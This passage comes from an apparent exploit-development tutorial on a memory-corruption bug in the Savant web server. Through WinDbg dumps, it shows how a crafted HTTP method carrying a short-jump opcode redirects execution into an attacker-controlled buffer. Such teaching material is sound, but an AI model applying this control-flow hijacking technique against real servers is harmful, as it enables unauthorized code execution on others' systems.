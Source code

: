 ```c
0481ea88  00000000
0481ea8c  4141412f
0481ea90  41414141
0481ea94  41414141
0481ea98  41414141
```

We can see that now we are landing on the address that we want.
Because we made sure that EAX would contain a valid memory address, we should be able to execute these instructions without generating an access violation, until we reach our buffer of 0x41 characters.
While this solution works, executing assembly instructions generated by the opcodes of our HTTP method **is not very clean.** Let’s explore some other options in the hopes of finding a more elegant way of reaching the start of our 0x41 buffer.

First, let's think that we are sending the GET method in our request, as well as the route, and such values are the ones being interpreted when the pop, ret instruction occurs.
What if we change the HTTP method used and insert some bytes? If instruction bytes can be inserted, when performing the jump, it would jump to our controlled instruction. We could insert a short jump instruction instead of GET in order to jump directly to our payload.
Let's try to modify the method used and insert some "C" characters as the method. They get reflected:
```c
Savant+0x18674:
00418674 58              pop     eax
0:008> dc poi(esp+4)
0478ea74  43434343 43434343 00000000 00000000  CCCCCCCC........
0478ea84  00000000 00000000 4141412f 41414141  ......../AAAAAAA
0478ea94  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0478eaa4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0478eab4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0478eac4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0478ead4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0478eae4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
```

Now, we want to replace our "C"s for a short jump instruction. Let's see how much bytes do we have to jump:
```c
0:008> db poi(esp+4)
0478ea74  43 43 43 43 43 43 43 43-00 00 00 00 00 00 00 00  CCCCCCCC........
0478ea84  00 00 00 00 00 00 00 00-2f 41 41 41 41 41 41 41  ......../AAAAAAA
0478ea94  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0478eaa4  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0478eab4  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0478eac4  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0478ead4  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
0478eae4  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
```

Now let's put a breakpoint on TBD and perform the short jump operation:

```c
0:008> a eip
0478ea74 jmp 0x0478ea8d 
jmp 0x0478ea8d 
0478ea76 

0:008> u eip
0478ea74 eb17            jmp     0478ea8d
```
